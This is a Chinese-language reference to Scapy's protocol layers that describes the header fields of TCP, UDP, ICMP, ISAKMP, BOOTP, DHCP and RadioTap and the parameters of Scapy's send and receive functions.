### 10.1.TCP:`scapy.layers.inet.TCP`
> Transmission Control Protocol
<details>

- sport
    - Source port (16 bits)
    - 识别发送连接端口, 0-65535, 0-2^16-1
- dport
    - Destination port (16 bits)
    - 识别接收连接端口, 0-65535, 0-2^16-1
    - 常见目的端口: FTP(20, 21), SSH(22), TELNET(23), SMTP(25), HTTP over SSL/TLS(443), HTTP(80)
- seq
    - Sequence number (32 bits)
    - 如果SYN标志设置为1, 则这是初始序列号
    - 如果SYN标志设置为0, 则这是当前会话该段的第一个数据字节的累计序列号
- ack
    - Acknowledgment number (32 bits)
    - 如果设置了ACK标志, 那么这个字段的值就是ACK发送者期望的下一个序列号
- dataofs
    - Data offset (4 bits)
    - 从TCP段开始到实际数据的偏移量
- reserved
    - Reserved (3 bits)
    - 供将来使用, 并应设为零. 
- flags
    - Flags (9 bits)
    - F: FIN, S: SYN, R: RST, P: PSH, A: ACK, U: URG, E: ECE, C: CWR
    - NS(1 bit):ECN-nonce -隐藏保护
    - CWR(1 bit):拥塞窗口减少(CWR)标志由发送主机设置, 表示它收到了设置了ECE标志的TCP段并在拥塞控制机制中作出了响应. 
    - ECE(1 bit):ECN-Echo有双重作用, 取决于SYN标志的值. 这表明:
        - 如果SYN标志为1, 则TCP对等点是支持ECN的. 
        - 如果SYN标志为0, 则表示在正常传输期间, IP报头中收到了一个设置了拥塞经历标志(ECN=11)的包
    - URG(1 bit): 表示紧急指针字段是有意义的
    - ACK(1 bit): 表示确认字段是有效的. 客户端发送的初始SYN包之后的所有包都应该设置此标志. 
    - PSH(1 bit): Push函数. 请求将缓冲数据推送到接收应用程序. 
    - RST(1 bit): 重置连接
    - SYN(1 bit): 同步序列号. 只有从每一端发送的第一个数据包才应该设置这个标志. 其他一些标志和字段会根据这个标志改变含义, 有些只有在设置时才有效, 有些在明确时才有效. 
    - FIN(1 bit): 最后一个来自发送方的数据包
- window
    - Window size (16 bits)
    - 接收窗口的大小, 它指定此段的发送方当前愿意接收的窗口大小单元的数量(默认情况下为字节)
- chksum
    - Checksum (16 bits)
- urgptr
    - Urgent pointer (16 bits)
    - 如果设置了URG标志, 那么这个16位字段就是表示最后一个紧急数据字节的序列号的偏移量
</details>

### 10.2.UDP:`scapy.layers.inet.UDP`
> User Datagram Protocol
<details>

- sport
    - Source port number(16 bits)
- dport
    - Destination port number(16 bits)
- len
    - Length(16 bits)
- chksum
    - Checksum(16 bits)
</details>

### 10.3.ICMP:`scapy.layers.inet.ICMP`
> Internet Control Message Protocol
<details>

- type, code
    - ICMP type(8 bits)  
    - ICMP subtype(8 bits)

    - Source quench
        > 如果路由器或主机没有足够的缓冲区空间来处理请求, 则可能生成此消息;如果路由器或主机缓冲区接近其极限, 则可能生成此消息. 
        - type: 4
        - code: 0
        - 发送方使用IP报头和其他数据将应答与关联的请求匹配起来

    - Redirect
        > 重定向请求数据包, 告知主机最佳路线是通过另一个路由器
        - type: 5
        - code
            Code | Description
            ---- | ---------------------------- 
            0    | 网络的重定向数据报           
            1    | 主机的数据报重定向           
            2    | 服务类型和网络的重定向数据报 
            3    | 服务类型和主机的重定向数据报 

    - Time exceeded
        > 通知丢弃的数据报的源, 因为ttl到零了. 如果主机未能在限定的时间内重新组装碎片数据报, 则也可以发送超时消息. 
        - type: 11
        - code
            Code | Description         
            ---- | --------------------
            0    | ttl传输超时         
            1    | 超过碎片重新组装时间

    - Timestamp
        > 用于时间同步
        - type: 13
        - code: 0
        - 客户端可以使用id和seq来匹配时间戳应答和时间戳请求
        - ts_ori, ts_rx, ts_tx
            - Originate timestamp(32 bits)
                - 自午夜世界时(UT)开始的毫秒数, 如果UT引用不可用, 则可以将最有效位设置为非标准时间值
            - Receive timestamp(32 bits)
            - Transmit timestamp(32 bits)
        - id
            - Identifier(16 btis)
        - seq
            - Sequence number(16 btis)

    - Timestamp reply
        > 对时间戳(Timestamp)消息的回复
        - type: 14
        - code: 0
        - ts_ori, ts_rx, ts_tx
            - Originate timestamp(32 bits)
                - 发送方在发送消息之前最后接触消息的时间
            - Receive timestamp(32 bits)
                - echoer在接收时第一次触摸它的时间
            - Transmit timestamp(32 bits)
                - echoer在发送消息时最后一次触及消息的时间
        - id
            - Identifier(16 btis)
        - seq
            - Sequence number(16 btis)

    - Address mask request
        > 地址掩码请求通常由主机发送到路由器, 以获得适当的子网掩码. 收件人应使用地址掩码回复邮件来回复此邮件.
        - type: 17
        - code: 0
        - addr_mask: 可以设置为0
            - Address mask(32 bits)
        - id
            - Identifier(16 btis)
        - seq
            - Sequence number(16 btis)
        - ICMP地址掩码请求可以作为侦察攻击的一部分来收集目标网络上的信息, 因此ICMP地址掩码应答在Cisco IOS上是默认禁用的
    - Address mask reply
        > 地址掩码应答使用 适当的子网掩码 应答 地址掩码请求消息
        - type: 18
        - code: 0
        - addr_mask: 
            - Address mask(32 bits)
            - 子网掩码
        - id
            - Identifier(16 btis)
        - seq
            - Sequence number(16 btis)
    - Destination unreachable
        > 通知客户端由于某种原因目的地不可到达
        - type: 3
        - code
            Code | Description              
            ---- | -------------------------
            0    | 目标网络不可达           
            1    | 目标主机不可达           
            2    | 目标协议不可达           
            3    | 目标端口不可达           
            4    | 要求分段并设置DF flag标志
            5    | 源路由失败               
            6    | 未知的目标网络           
            7    | 未知的目标主机           
            8    | 源主机隔离(作废不用)     
            9    | 禁止访问的网络           
            10   | 禁止访问的主机           
            11   | 对特定的TOS 网络不可达   
            12   | 对特定的TOS 主机不可达   
            13   | 由于过滤 网络流量被禁止  
            14   | 主机越权                 
            15   | 优先权终止生效           
        - nexthopmtu
            - Next-hop MTU(16 bits)
            - 下一跳网络的MTU
            - MTU: 一种通信协议的某一层上面所能通过的最大数据包大小(以字节为单位)
- chksum
    - Checksum(16 bits)
- gw
    - Gateway
- ptr
- reserved
- length
- unused
- unused
</details>


### 10.4.函数
- `send()`: 发送数据
    <details>

    - x: 发送的数据包
    - return_packets: 是否返回发送的数据包
    - count: 发送数量
    - inter: 发包时间间隔(s)
    - loop: True时循环发送, 不可与count同用
    - verbose: False时不返回"Sent 1 packets."
    - realtime: 在发送下一个包之前, 请检查当前是否已被发送
    - socket: 要使用的套接字(默认为conf.L3socket(kargs))
    - iface: 网络接口
    - monitor: monitor模式下发送(linux下此参数不可用)
    </details>
- `sr()`: 发送数据, 并接收
    <details>

    - 返回: 响应数据包(发送包, 接收包)列表, 未响应数据包列表
    - pks: SuperSocket实例用于发送接收包
    - pkt: 用于发送的包
    - rcv_pks: 如果设置, 将代替pks来接收数据包. 数据包仍将通过pks发送
    - nofilter: 设为1以避免使用BPF过滤器
    - retry: 如果为正, 重新发送未应答的包retry次. 如果为负, 当再也没有包被应答时, retry次重新发送未应答的包.
    - timeout: 最后一个数据包发送后需要等待多长时间
    - verbose: 0, 1, 2 默认为2
    - multi: 接受同一请求的多个响应
    - store_unanswered: 是否存储未应答的数据包. 将其设置为False将加快速度, 并且将返回None作为unans列表
    - process: 如果指定, 则只存储process(pkt)的结果, 该函数应该遵循以下格式:`lambda sent, received: (func(sent), func2(received))`如果数据包没有得到回复, 则接收为空. 如果store_unanswered为False, 则不会对未应答的调用该函数. 
    - prebuild: 在开始发送数据包之前预先构建它们. 当生成器作为包传递时自动启用
    </details>
- `sr1()`: 发送数据, 并接收, 只返回一条数据包
    <details>

    - 返回: 响应数据包(发送包, 接收包)列表, 未响应数据包列表
    - pks: SuperSocket实例用于发送接收包
    - pkt: 用于发送的包
    - rcv_pks: 如果设置, 将代替pks来接收数据包. 数据包仍将通过pks发送
    - nofilter: 设为1以避免使用BPF过滤器
    - retry: 如果为正, 重新发送未应答的包retry次. 如果为负, 当再也没有包被应答时, retry次重新发送未应答的包.
    - timeout: 最后一个数据包发送后需要等待多长时间
    - verbose: 0, 1, 2 默认为2
    - multi: 接受同一请求的多个响应
    - store_unanswered: 是否存储未应答的数据包. 将其设置为False将加快速度, 并且将返回None作为unans列表
    - process: 如果指定, 则只存储process(pkt)的结果, 该函数应该遵循以下格式:`lambda sent, received: (func(sent), func2(received))`如果数据包没有得到回复, 则接收为空. 如果store_unanswered为False, 则不会对未应答的调用该函数. 
    - prebuild: 在开始发送数据包之前预先构建它们. 当生成器作为包传递时自动启用
    </details>
- `srloop()`: 循环发送一个数据包, 并打印响应
    
## 十一.应用层
### 11.1.ISAKMP:`scapy.layers.isakmp.ISAKMP`
> Internet Security Association and Key Management Protocol, 互联网安全协会和密钥管理协议, 用于在两个通信实体协商和建立安全相关, 交换密钥.
ISAKMP定义了用于建立, 协商, 修改和删除安全关联的过程和数据包格式. SA包含执行各种网络安全服务所需的所有信息, 例如IP层服务（例如标头身份验证和有效载荷封装）, 传输或应用程序层服务或协商流量的自我保护. ISAKMP定义了用于交换密钥生成和身份验证数据的有效负载. 这些格式提供了用于传输密钥和认证数据的一致框架, 该框架独立于密钥生成技术, 加密算法和认证机制. 
ISAKMP与密钥交换协议不同, 是为了将安全关联管理（和密钥管理）的细节与密钥交换的细节清晰地分开. 可能有许多不同的密钥交换协议, 每种协议具有不同的安全性. 但是, 需要一个通用框架来同意SA属性的格式, 以及协商, 修改和删除SA. ISAKMP充当此通用框架. 

<details>

- init_cookie
    - Initiator cookie 8 bytes
    - 发起SA建立、SA通知或SA删除的实体的cookie. 
- resp_cookie
    - Responder cookie 8 bytes
    - 响应SA建立请求、SA通知或SA删除的实体的cookie. 
- next_payload
    - Next payload 8 bits.
    - 指示消息中第一个有效负载的类型. 

    Value   | Description                   | References
    ------- | ----------------------------- | ----------
    0       | None.                         | RFC 2408  
    1       | Security Association.         | RFC 2408  
    2       | Proposal.                     | RFC 2408  
    3       | Transform.                    | RFC 2408  
    4       | Key Exchange.                 | RFC 2408  
    5       | Identification.               | RFC 2408  
    6       | Certificate.                  | RFC 2408  
    7       | Certificate Request.          | RFC 2408  
    8       | Hash.                         | RFC 2408  
    9       | Signature.                    | RFC 2408  
    10      | Nonce.                        | RFC 2408  
    11      | Notification.                 | RFC 2408  
    12      | Delete.                       | RFC 2408  
    13      | Vendor ID.                    | RFC 2408  
    14      |                              
    15      | SAK, SA KEK Payload.          | RFC 3547  
    16      | SAT, SA TEK Payload.          | RFC 3547  
    17      | Key Download.                 | RFC 3547  
    18      | Sequence Number.              | RFC 3547  
    19      | Proof of Possession.          | RFC 3547  
    20      | NAT-D, NAT Discovery.         | RFC 3947  
    21      | NAT-OA, NAT Original Address. | RFC 3947  
    22-127  |                              
    128-255 | Private use.                 

- version
    - Mjr version. 4 bits.
        - 正在使用的ISAKMP协议的主要版本
    = Mnr version. 4 bits.
        - 正在使用的ISAKMP协议的次要版本. 
- exch_type
    - Exchange type
    - 指示正在使用的交换的类型. 这将指定ISAKMP交换中的消息和负载次序
- flags
    - Flags
    - 指示为ISAKMP交换设置的选项. 

    Value   | Description         
    ------- | --------------------
    0       | None.               
    1       | Base.               
    2       | Identity protection.
    3       | Authentication only.
    4       | Aggressive.         
    5       | Informational.      
    6-31    | ISAKMP future use.  
    32-239  | DOI specific use.   
    240-255 | Private use.        

- id
    - Message ID 4 bytes
    - 在第二阶段谈判中用于确定议定书状态的唯一值. 它是由阶段2协商的发起者随机生成的. 
- length
    - Length 4 bytes
    - ISAKMP头的总长度和封装的有效载荷(以字节为单位). 
</details>

### 11.2.BOOTP:`scapy.layers.dhcp.BOOTP`
> BOOTP 及其扩展是动态主机配置协议（DHCP）的基础. 引导协议（BOOTP）是一种基于 UDP/IP 的协议. 这种协议允许正在启动的主机动态配置而无需用户监督. BOOTP 主要用于客户机从服务器获得自己的 IP 地址, 服务器的 IP 地址以及启动映象文件名. 此外通过 BOOTP, 其它一些装置信息, 如本地子网掩码、本地时间偏移量、默认路由器地址和各种 Internet 服务器地址, 都能与客户机交流. 

<details>

- op
    - 分组操作码/消息类型. 1 = BOOTREQUEST, 2 = BOOTREPLY
- htype
    - 硬件地址类型,参见“指定号码”RFC中的ARP部分. '1' = 10mb以太网
- hlen
    - 硬件地址长度(如10mb以太网为'6'). 
- hops
    - 客户端设置为0, 可选地由网关使用, 在cross-gateway引导. 
    - 若封包需经过 router 传送, 每站加 1 , 若在同一网内, 为 0. 
- xid
    - 事务ID, 一个随机数, 用于将此引导请求与它生成的反应. 
- secs
    - 由客户端填写, 几秒钟后客户端开始尝试引导. 
- flags
    - 标记
- ciaddr
    - 客户端IP地址;由客户在bootrequest中填写. 
- yiaddr
    - “您的”(客户)IP地址;如果客户端不填, 则由服务器填写知道自己的地址(ciaddr为0). 
- siaddr
    - 服务器IP地址;由服务器在bootreply中返回. 
- giaddr
    - 网关IP地址,用于可选的跨网关引导. 
- chaddr
    - 客户端硬件地址,客户填写. 
- sname
    - 可选的服务器主机名, 零结尾字符串. 
- file
    - BOOT文件名, 空终止字符串;“通用”名或bootrequest中的null, 完全限定的目录路径在bootreply名称
- options
    - 可选参数字段

</details>


### 11.3.DHCP:`scapy.layers.dhcp.DHCP`
> Dynamic Host Configuration Protocol, 动态主机设置协议是一个用于局域网的网络协议, 位于OSI模型的应用层, 使用UDP协议工作, 
主要有两个用途:
用于内部网或网络服务供应商自动分配IP地址给用户
用于内部网管理员对所有电脑作中央管理

<details>

- options
    - 例:DHCP(options=[(Option, Value)])
    - Option取值:
        > 给定的值必须为指定类型, NoneType不用给值默认为True
        - pad: NoneType
        - subnet_mask: IPField
            - 子网掩码值
        - time_zone: NoneType
        - router: IPField
            - N/4路由器地址
        - time_server: IPField
            - N/4时间服务器地址
        - IEN_name_server: IPField
        - name_server: IPField
            - N/4 IAN-116服务器地址
        - log_server: IPField
            - N/4 日志服务器地址
        - cookie_server: IPField
        - lpr_server: IPField
            - N/4 打印机服务器地址
        - impress-servers: IPField
            - N/4 印象服务器地址
        - resource-location-servers: IPField
        - hostname: NoneType
        - boot-size: ShortField
            - BOOT文件大小, 以512字节为单位
        - dump_path: NoneType
        - domain: NoneType
        - swap-server: IPField
            - 交换服务器地址
        - root_disk_path: NoneType
        - extensions-path: NoneType
        - ip-forwarding: ByteField
            - 启用/禁用IP转发
        - non-local-source-routing: ByteField
        - policy-filter: IPField
            - 路由策略的过滤器 
        - max_dgram_reass_size: NoneType
            - 最大数据报重新组装大小
        - default_ttl: NoneType
        - pmtu_timeout: NoneType
        - path-mtu-plateau-table: ShortField
            - 路径MTU平台表
        - interface-mtu: ShortField
            - 接口MTU大小
        - all-subnets-local: ByteField
            - 所有子网都是本地的
        - broadcast_address: IPField
            - 广播地址
        - perform-mask-discovery: ByteField
            - 执行掩码发现
        - mask-supplier: ByteField
            - 为其他提供掩码
        - router-discovery: ByteField
            - 执行路由器搜索
        - router-solicitation-address: IPField  
            - 路由器请求地址
        - trailer-encapsulation: ByteField
            - 尾部封装
        - arp_cache_timeout: NoneType
        - ether_or_dot3: NoneType
        - tcp_ttl: NoneType
        - tcp_keepalive_interval: NoneType
        - tcp_keepalive_garbage: NoneType
        - NIS_domain: NoneType
        - NIS_server: IPField
            - NIS服务器地址
        - NTP_server: IPField
            - NIP服务器地址
        - vendor_specific: NoneType
        - NetBIOS_server: IPField
            - NETBIOS名称服务器地址
        - NetBIOS_dist_server: IPField
            - NETBIOS数据报分布
        - static-routes: ByteField
            - 静态路由表
        - netbios-scope: NoneType
        - font-servers: IPField
            - X Window Font Server
        - x-display-manager: IPField
            - X Window Display Manager
        - requested_addr: IPField
            - 请求的IP地址
        - lease_time: IntField
            - IP地址租用时间
        - dhcp-option-overload: ByteField
            - 重载“sname”或“file”
                - 1: 'file'
                - 2: 'sname
                - 3: 两个字段都
        - message-type: ByteEnumField
            - DHCP消息类型
            - Value取值: 
                - discover
                    -DHCP客户端在网络上发送DHCP发现广播, 以查找DHCP服务器. 如果没有来自DHCP服务器的响应, 则客户端将为其分配一个自动专用IPv4地址（APIPA）
                - offer
                    - 网络上收到DHCP发现消息的DHCP服务器以DHCP提供消息作为响应, 该消息为客户端提供IPv4地址租约. 
                - request
                    - 客户端通过广播所提供的IPv4地址的DHCP请求消息来接受收到的第一个提议
                - decline
                    - 如果DHCP客户端确定所提供的TCP / IP配置参数无效, 则它将DHCPDecline数据包发送到服务器. 此后, 客户端必须再次开始DHCP租用过程
                - ack
                    - 服务器通过向客户端发送DHCP确认消息来接受请
                - nak
                    - 如果无法使用DHCP客户端请求的IPv4地址（另一个设备可能正在使用该IPv4地址）, 则DHCP服务器将以DHCPNak（否定确认）数据包进行响应. 此后, 客户端必须再次开始DHCP租用过程. 
                - release
                    - DHCP客户端向服务器发送DHCPRelease数据包, 以释放IPv4地址并取消所有剩余的租约. 
                - inform
                    - DHCPInform是在RFC 2131中定义的新的DHCP消息类型. DHCP客户端使用DHCPInform获取DHCP选项
                - force_renew
                    - 强制更新
                - lease_query
                    - https://tools.ietf.org/html/rfc4388
                - lease_unassigne
                    - https://tools.ietf.org/html/rfc4388
                - lease_unknown
                    - https://tools.ietf.org/html/rfc4388
                - lease_active
                    - https://tools.ietf.org/html/rfc4388
        - server_id: IPField
            - DHCP服务器ID
        - param_req_list: FieldListField
            - 参数请求列表
        - error_message: NoneType
        - max_dhcp_size: ShortField
            - DHCP最大消息大小
        - renewal_time: IntField
            - DHCP更新(T1)时间
        - rebinding_time: IntField
            - DHCP重新结合(T2)时间
        - vendor_class_id: NoneType
        - client_id: NoneType
        - nwip-domain-name: NoneType
        - NISplus_domain: NoneType
        - NISplus_server: IPField
            - NIS+v3服务器地址
        - boot-file-name: StrField
            - BOOT文件名
        - mobile-ip-home-agent: IPField
            - Home Agent Addresses
        - SMTP_server: IPField
            - SMTP服务器地址
        - POP3_server: IPField
            - POP3服务器地址
        - NNTP_server: IPField
            - NNTP服务器地址
        - WWW_server: IPField
            - WWW服务器地址
        - Finger_server: IPField
            - Finger服务器地址
        - IRC_server: IPField
            - IRC服务器地址
        - StreetTalk_server: IPField
            - StreetTalk服务器地址
        - StreetTalk_Dir_Assistance: NoneType
        - client_FQDN: NoneType
        - relay_agent_Information: NoneType
        - client-last-transaction-time: IntField
        - associated-ip: IPField
        - subnet-selection: IPField
            - 子网选择选项
        - end: NoneType

</details>


## 十二.Wi-Fi

### 12.1.RadioTap:`scapy.layers.dot11.RadioTap`
> 发送和接收802.11标准帧, 在发送802.11帧之前, 网络驱动程序在802.11帧之前添加radiotap报头;一旦网卡接收到无线帧, 网络驱动程序就会通知MAC层这个帧包含了radiotap报头,当无线网络接口处monitor模式时,内核会生成一个名为RadioTap的数据添加在IEEE802.11数据帧(MPDU)的前面,该Radiotap记录了热点的信息,如信号强度、MPDU帧信息等信息. 意思就是在正常的IEEE802.11数据帧前面,核又额外给你加了一块RadioTap类型的数据,这块数据记录了一些无线网的属性. 

- [wi-fi启动监听模式](#2.2.wi-fi启动监听模式)
<details>

- version 
    - Verion (8 bits)
    - 目前应为0
- pad
    - Pad (8 bits)
    - 目前未使用, 占位符
- len
    - Length (16 bits)
    - radiotap数据的整个长度, 包括radiotap头 
- notdecoded
- present
    - Present (32 bits)
    - 数据段掩码, 小端字节序
    - 位置对应
        - `TSFT`
            - 结构: 64 bits Mactime
            - 单元: 微秒
            - 变量名: mac_timestamp
            - 当MPDU的第一位到达MA​​C时, MAC的64位802.11时间同步功能计时器的微秒值. 仅适用于接收的帧                
        - `Flags`
            - 结构: 8 bits flags
            - 单位: bitmap
            - 变量名: Flags
                标志 | 含义                                         
                ---- | ---------------------------------------------
                0x01 | 在CFP中发送/接收                             
                0x02 | 用简短的序言发送/接收                        
                0x04 | 使用WEP加密发送/接收                         
                0x08 | 碎片发送/接收                                
                0x10 | 框架包括FCS                                  
                0x20 | 帧在802.11标头和有效负载之间填充 (到32位边界)
                0x40 | 帧未通过FCS检查                              
                0x80 | 使用的帧短保护间隔 (HT)                      
        - `Rate`
            - 结构: 8 bits rate
            - 单位: 500 Kbps
            - TX / RX数据速率. 
            - 变量名: Rate
        - `Channel`
            - 结构: 16 bits frequency, 16 bits flags
            - 单位: MHz, bitmap
            - Tx/Rx频率(MHz), 后跟标志
            - 变量名: ChannelFrequency
            - 变量名: ChannelFlags 
                标志   | 含义               
                ------ | -------------------
                0x0010 | 涡轮通道           
                0x0020 | CCK通道            
                0x0040 | OFDM信道           
                0x0080 | 2 GHz频谱通道      
                0x0100 | 5 GHz频谱通道      
                0x0200 | 仅允许被动扫描     
                0x0400 | 动态CCK-OFDM信道   
                0x0800 | GFSK通道 (FHSS PHY)
        - `FHSS`
            - 结构: 8 bits hop set, 8 bits hop pattern
            - 跳频无线电的跳集和模式
        - `dBm_AntSignal`
            - 结构: 8 sign bits
            - 单位: 分贝
            - 变量名: dBm_AntSignal
            - 天线的RF信号功率. 该值指示天线处的RF信号功率, 以1mW为单位的分贝差. 
        - `dBm_AntNoise`
            - Antenna noise
            - 结构: 8 sign bits
            - 单位: 分贝
            - 变量名: dBm_AntNoise
            - 天线的射频噪声功率.该值指示天线处的RF信号功率, 以1mW为单位的分贝差. 
        - `Lock_Quality`
            - 结构: 16 bits
            - 变量名: Lock_Quality
            - Barker Lock的质量. 单调不降低, 锁定强度更高. 数据表中称为“信号质量”
        - `TX_Attenuation`
        - `dB_TX_Attenuation`
            - 结构: 16 bits
            - 在工厂校准时, 传输功率以与最大功率设置的分贝距离表示. 0是最大功率. 单调不递减的低功率级. 
        - `dBm_TX_Power`
            - 结构: 8 sign bits
            - 单位: dBm
            - 发射功率以dBm(1毫瓦参考分贝)表示. 这是在天线端口测量的绝对功率电平. 
        - `Antenna`
            - 结构: 8 bits
            - 单位: 天线索引
            - 变量名: Antenna
            - 此数据包的Rx/Tx天线的指示.第一个天线是天线0. 
        - `dB_AntSignal`
            - 结构: 8 bits
            - 天线处的RF信号功率, 与任意固定参考之间的分贝差. 该字段包含单个无符号的8位值. 
        - `dB_AntNoise`
            - 结构: 8 bits
            - 单位: dB
            - 天线的RF噪声功率, 与任意固定参考之间的分贝差. 该字段包含单个无符号的8位值. 
        - `RXFlags`
            - 结构: 16 bits
            - 接收帧的属性
            - 变量名: RXFlags
                值     | 含义                         
                ------ | -----------------------------
                0x0001 | 保留(FCS失败, 但这是常规标志)
                0x0002 | PLCP CRC检查失败             
                0xfffc | 保留以备将来扩展             
        - `TXFlags`
            - 变量名: TXFlags
            - https://www.radiotap.org/fields/TX%20flags.html
        - `b17`
            - https://www.radiotap.org/fields/RSSI.html
            - https://www.radiotap.org/fields/RTS%20retries.html
        - `b18`
            - https://www.radiotap.org/fields/data%20retries.html
        - `ChannelPlus`
            - https://www.radiotap.org/fields/XChannel.html
            - 变量名: ChannelPlusFlags, ChannelPlusFrequency, ChannelPlusNumber
        - `MCS`
            - 结构: 8 bits known, 8 bits flags, 8 bits mcs
            - 变量名: MCS_index
                - mcs
            - 变量名: knownMCS

                值   | 含义                                
                ---- | ----------------------------------- 
                0x01 | 带宽已知                            
                0x02 | mcs索引已知(在mcs部分的字段中)      
                0x04 | guard 间隔已知                      
                0x08 | HT格式已知                          
                0x10 | FEC类型已知                         
                0x20 | STBC已知                            
                0x40 | Ness 已知(扩展空间流的数量)         
                0x80 | Ness数据-扩展空间流数量的1 bit(MSB) 
            - flags 
                - 变量名: HT_format
                - 变量名: Ness_LSB
                - 变量名: FEC_type
                - 变量名: MCS_bandwidth
                - 变量名: guard_interval
                - 变量名: STBC_stream

                值   | 含义                                
                ---- | ------------------------------------
                0x03 | 带宽 (0: 20, 1: 40, 2: 20L, 3: 20U) 
                0x04 | guard 间隔 - 0: long GI, 1: short GI
                0x08 | HT 格式 - 0: mixed, 1: greenfield   
                0x10 | FEC 类型 - 0: BCC, 1: LDPC          
                0x60 | STBC流的数量                        
                0x80 | Ness-bit 扩展空间流数量的0 bit(LSB) 
        - `A_MPDU`
            - A-MPDU status
            - 结构: 32 bits reference number, 16 bits flags, 8 bits delimiter CRC value, 8 bits reserved
            - 该字段的存在表明帧是作为a-MPDU的一部分接收的. reference number由捕获设备生成, 并且在A-MPDU的每个子帧中都是相同的. 由于捕获设备可能能够捕获多个通道, 或者可以合并来多个(并发)捕获的数据, 所以不能保证reference number在不同通道之间是惟一的. 因此, 应用程序应该使用通道信息和reference number来识别属于同一A-MPDU的子帧
            - 变量名: A_MPDU_ref
            - 变量名: A_MPDU_flags
                值     | 含义                                        
                ------ | --------------------------------------------
                0x0001 | 驱动程序报告0长度子帧                       
                0x0002 | 帧是长度为0的子帧(仅当设置为0x0001时有效)   
                0x0004 | 已知最后一个子帧(应为A-MPDU中的所有子帧设置)
                0x0008 | 这个帧是最后一个子帧                        
                0x0010 | 定界符CRC错误                               
                0x0020 | 分隔符CRC值已知: 分隔符CRC值字段有效        
                0x0040 | EOF值                                       
                0x0080 | EOF值已知                                   
                0xff00 | 保留                                        
        - `VHT`
            - 结构: 16bits known, 8 bits flags, 8 bits bandwidth, 8 bits mcs_nss[4], 8 bits coding, 8 bits group_id, 16 bits partial_aid
            - https://www.radiotap.org/fields/VHT.html
            - 变量名: KnownVHT, PresentVHT, VHT_bandwidth, mcs_nss, GroupID, PartialAID
        - `timestamp`
            - 结构: 64 bits timestamp, 16 bits accuracy, 8 bits unit/position, 8 bits flags
            - 变量名: ts_accuracy
            - 变量名: ts_position
                value | sampling position                                               
                ----- | ----------------------------------------------------------------
                0     | first bit (or symbol containing it) of MPDU - matches TSFT field
                1     | signal acquisition at start of PLCP                             
                2     | end of PPDU                                                     
                3     | end of MPDU (after FCS)                                         
                4-14  | reserved                                                        
                15    | unknown or vendor/OOB defined                                   
            - 变量名: ts_flags
                值   | 含义                    
                ---- | ------------------------
                0x01 | 32位计数器(高32位未使用)
                0x02 | accuracy已知            
                0xFC | 保留                    
            - https://www.radiotap.org/fields/timestamp.html
        - `HE`
            - 结构: 16 bits data1, data2, data3, data4, data5, data6
            - 该字段的存在指示使用HE PHY接收或发送了该帧, 此字段包含的数据大部分来自所有HE传输所共有的HE-SIG-A部分, 但是某些数据也可能会被计算 (例如, 当包含在HE_TRIG类型帧的传输时, 某些参数不包含在HE-SIG-A, 但由触发帧确定) .
            - 但是, 对于HE_MU格式的PPDU, 它包含适用于PSDU编码的数据, 如果需要, 还包含HE-MU字段中包含的有关MU传输的更详细的信息, 在许多情况下, 不需要该字段, 因为有关已捕获的单个户的数据已在此处进行了编码. 
            - 对于MU传输, 在这种情况下, HE-MU-other-user 字段也可能出现一次或多次, 以捕获无法捕获其数据的额外用户. 如果为一个以上的用户捕获了数据, 则必须将多个数据包写入radiotap获中

            - 变量名: he_data1

                值     | 含义                                                 
                ------ | -----------------------------------------------------
                0x0003 | HE PPDU格式：0=HE_SU, 1=HE_EXT_SU, 2=HE_MU, 3=HE_TRIG
                0x0004 | BSS颜色已知                                          
                0x0008 | 光束变化已知                                         
                0x0010 | UL/DL已知                                            
                0x0020 | 数据MCS已知                                          
                0x0040 | 数据DCM已知                                          
                0x0080 | 编码已知                                             
                0x0100 | LDPC额外符号段已知                                   
                0x0200 | STBC已知                                             
                0x0400 | 空间复用已知 (空间复用 1 for HE_TRIG format)         
                0x0800 | 空间复用2已知 (HE_TRIG格式) , 已知STA-ID (HE_MU格式) 
                0x1000 | 空间重用3已知 (HE_TRIG格式)                          
                0x2000 | 空间重用4已知 (HE_TRIG格式)                          
                0x4000 | 数据BW/RU分配已知                                    
                0x8000 | 多普勒已知                                           
            - 变量名: he_data2
                值     | 含义                             
                ------ | ---------------------------------
                0x0001 | pri/sec 80 MHz已知               
                0x0002 | 地理标志                         
                0x0004 | 的LTF符号数已知                  
                0x0008 | Pre-FEC填充因子已知              
                0x0010 | TxBF已知                         
                0x0020 | PE Disambiguity已知              
                0x0040 | TXOP已知                         
                0x0080 | 中间码周期已知                   
                0x3f00 | RU分配偏移                       
                0x4000 | RU分配偏移已知                   
                0x8000 | pri/sec 80 MHz (主要= 0, 次要= 1)
            - 变量名: he_data3
                值     | 含义                                                
                ------ | ----------------------------------------------------
                0x003f | BSS颜色                                             
                0x0040 | 光束变化                                            
                0x0080 | UL/DL                                               
                0x0f00 | 数据MCS (对于HE_MU格式, 不是来自HE-SIG-A的SIG-B MCS)
                0x1000 | 数据DCM (请参阅数据MCS)                             
                0x2000 | 编码 (0=BCC, 1=LDPC)                                
                0x4000 | LDPC额外符号段                                      
                0x8000 | 空时分组码                                          
            - 变量名: he_data4
                值 | HE_SU和HE_EXT_SU格式的PPDU
                0x000f | 空间复用
                0xfff0 |  (保留) 

                值 | HE_TRIG格式PPDU
                0x000f | 空间复用1
                0x00f0 | 空间重用2
                0x0f00 | 空间重用3
                0xf000 | 空间重用4

                值 | HE_MU格式PPDU
                0x000f | 空间复用
                0x7ff0 | 为其捕获数据的用户的STA-ID
                0x8000 |  (保留) 
            - 变量名: he_data5
                值     | 含义                                                                                                                                                                
                ------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------
                0x000f | 数据带宽/RU分配 (0: 20、1: 40、2: 80、3: 160/80+80、4: 26-tone RU, 5: 52-tone RU, 6: 106-tone RU, 7: 242-tone RU, 8: 484-tone RU, 9: 996-tone RU, 10: 2x996-tone RU)
                0x0030 | GI (0: 0.8us, 1: 1.6us, 2: 3.2us, 3: 保留)                                                                                                                          
                0x00c0 | LTF符号大小 (0: 未知, 1: 1x, 2: 2x, 3: 4x)                                                                                                                          
                0x0700 | LTF符号的数量 (0: 1x, 1: 2x, 2: 4x, 3: 6x, 4: 8x, 5-7: 保留)                                                                                                        
                0x0800 | (保留)                                                                                                                                                              
                0x3000 | Pre-FEC的填充因子                                                                                                                                                   
                0x4000 | TxBF                                                                                                                                                                
                0x8000 | PE Disambiguity                                                                                                                                                     
            - 变量名: he_data6
                值     | 含义                                            
                ------ | ------------------------------------------------
                0x000f | NSTS (时空流的实际数量, 0: 未知, 1: 1, 依此类推)
                0x0010 | 多普勒值                                        
                0x00e0 | (保留)                                          
                0x7f00 | TXOP值                                          
